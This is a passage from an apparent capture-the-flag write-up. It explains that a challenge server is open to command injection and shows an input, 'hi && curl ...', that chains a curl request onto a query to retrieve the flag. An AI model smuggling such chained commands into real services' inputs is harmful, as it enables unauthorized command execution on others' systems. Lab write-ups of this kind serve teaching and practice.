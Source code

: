 This means the server is vulnerable to a command line injection attack.

Now since we know that only Son of Anton can access the flag, we can try to inject a `curl` command by submitting the following query:
```hi && curl https://ctf-oct-gbl.herokuapp.com/flag```

This will give us an output which contains the flag:
```flag{insert_cool_flag_here}```